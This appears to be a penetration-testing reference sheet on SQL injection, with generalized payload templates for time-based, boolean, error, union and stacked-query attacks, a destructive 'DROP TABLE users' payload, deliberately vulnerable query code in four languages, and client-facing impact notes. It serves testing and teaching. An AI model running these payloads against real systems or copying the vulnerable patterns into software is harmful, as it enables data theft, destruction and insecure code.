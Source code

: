 SQL Injection Strategies and Payload Templates

This document summarizes common SQL injection strategies, payload structures, and generalized templates for building proof-of-concepts. These examples are intended to:
	•	Help analysts spot SQLi patterns in source code
	•	Assist pentesters in building safe, reusable PoCs
	•	Demonstrate business impact to clients by showing how attackers can extract or tamper with data

⸻

General Categories of SQL Injection

Strategy	Visibility	Example Goal
Boolean-based	Low	Infer data via true/false logic
Time-based (blind)	None	Use delay to infer truth
Error-based	Medium	Use error messages to leak info
Union-based	High	Extract visible data via unions
Stacked Queries	High	Add new queries (;)
Out-of-Band (OOB)	None	Force DNS/HTTP callbacks


⸻

Generalized Payload Templates

These templates use placeholders like <hidden_value> or <condition> instead of table or column names. They help describe the structure of SQLi without requiring real schema knowledge.

1. Time-Based — Length Check

<base_value> AND (
    SELECT CASE
        WHEN (LENGTH((SELECT <hidden_value> FROM <source> WHERE <condition>)) = <candidate_length>)
        THEN SLEEP(<delay_time>)
        ELSE SLEEP(0)
    END
)

	•	Use to discover length of secret string

2. Time-Based — Character Comparison

<base_value> AND (
    SELECT CASE
        WHEN (ASCII(SUBSTRING((SELECT <hidden_value> FROM <source> WHERE <condition>), <position>, 1)) > <reference_value>)
        THEN SLEEP(<delay_time>)
        ELSE SLEEP(0)
    END
)

	•	Used in binary search to extract secret values, character by character

3. Boolean-Based — True/False Inference

<base_value> AND (
    (SELECT <numeric_value> FROM <source> WHERE <condition>) = <guess>
)

	•	Response differs based on conditional truth
	•	Not useful if server returns same response regardless

4. Error-Based — Leak via Exception

<base_value> AND (SELECT 1 FROM <source> WHERE <condition> GROUP BY <non_grouped_column>)

	•	Generates DB error that reveals backend structure

5. Union-Based — Output Hijacking

<base_value> UNION SELECT <columns> FROM <source>

	•	Only works if response is reflected to user (e.g., search results)

6. Stacked Queries (multi-statement)

<base_value>; DROP TABLE users --

	•	Often blocked by filters; use only if multiple statements allowed

⸻

Common Vulnerable Patterns in Code

Java

String query = "SELECT * FROM users WHERE username = '" + user + "'";

PHP

$query = "SELECT * FROM accounts WHERE id = $_GET['id']";

Node.js (raw)

connection.query("SELECT * FROM users WHERE email = " + req.body.email);

Python (bad)

sql = "SELECT * FROM products WHERE sku = '%s'" % user_input


⸻

Business Impact Summary

Scenario	Risk Level	Impact
Dumping user credentials	Critical	Account takeover, credential reuse
Extracting API keys/tokens	Critical	Service impersonation
Reading internal config/secrets	High	Infrastructure compromise
Deleting or altering customer data	High	Compliance/legal risk
Bypassing auth (e.g., OR 1=1)	Critical	Full access to protected systems


⸻

What to Tell the Client
	•	“This vulnerability allows external attackers to read or alter sensitive data without authentication.”
	•	“An attacker could use this to pivot inside your environment or impersonate key users.”
	•	“A well-prepared payload can be run silently without generating any visible error or UI trace.”
	•	“Time-based attacks can exfiltrate data even when no output is returned.”

⸻

Next Steps
	•	Write PoCs using these templates for your exact targets
	•	Reproduce in QA with controlled input/output capture
	•	Recommend use of parameterized queries / ORM

